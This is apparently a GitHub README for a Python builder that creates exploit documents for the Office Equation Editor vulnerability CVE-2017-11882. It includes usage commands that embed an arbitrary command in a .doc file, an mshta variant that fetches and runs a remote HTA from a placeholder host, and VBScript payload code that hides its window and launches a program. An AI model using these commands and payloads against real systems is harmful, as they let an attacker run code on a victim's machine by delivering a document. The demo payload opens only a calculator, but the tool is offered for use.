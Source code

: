 # CVE-2017-11882

原脚本来自于 https://github.com/embedi/CVE-2017-11882


CVE-2017-11882:
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/

MITRE CVE-2017-11882:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-11882

Research:
https://embedi.com/blog/skeleton-closet-ms-office-vulnerability-you-didnt-know-about

Patch analysis:
https://0patch.blogspot.ru/2017/11/did-microsoft-just-manually-patch-their.html

DEMO PoC exploitation:
https://www.youtube.com/watch?v=LNFG0lktXQI&lc=z23qixrixtveyb2be04t1aokgz10ymfjvfkfx1coc3qhrk0h00410


## Usage


```python
python Command_CVE-2017-11882.py -c "cmd.exe /c calc.exe" -o test.doc
```

use mshta
```python
python Command_CVE-2017-11882.py -c "mshta http://site.com/abc" -o test.doc
```
abc
```html
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "calc.exe"
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML> 

```

>命令长度不能超过43 bytes

# Sample exploit for CVE-2017-11882 (starting calc.exe as payload)

`example` folder holds an .rtf file which exploits CVE-2017-11882 vulnerability and runs calculator in the system.
